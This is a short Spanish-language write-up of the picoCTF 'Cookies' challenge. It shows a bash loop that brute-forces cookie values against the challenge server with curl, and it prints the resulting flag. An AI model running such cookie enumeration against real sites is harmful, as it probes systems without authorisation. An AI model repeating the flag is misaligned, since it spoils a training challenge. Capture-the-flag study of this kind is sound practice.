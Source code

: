 
# Cookies

## Descripcion

Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:6418/](http://mercury.picoctf.net:6418/)

## Pistas

no hay

## Solucion

```bash()
┌──(kali㉿kali)-[~]
└─$ for i in {0..20}; do curl -s http://mercury.picoctf.net:6418/check -H "Cookie: name=$i"; done | grep picoCTF
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_88acab36}</code></p>

```

## Bandera

picoCTF{3v3ry1_l0v3s_c00k135_88acab36}

## Notas adicionales

| comando | descripcion

## Referencias
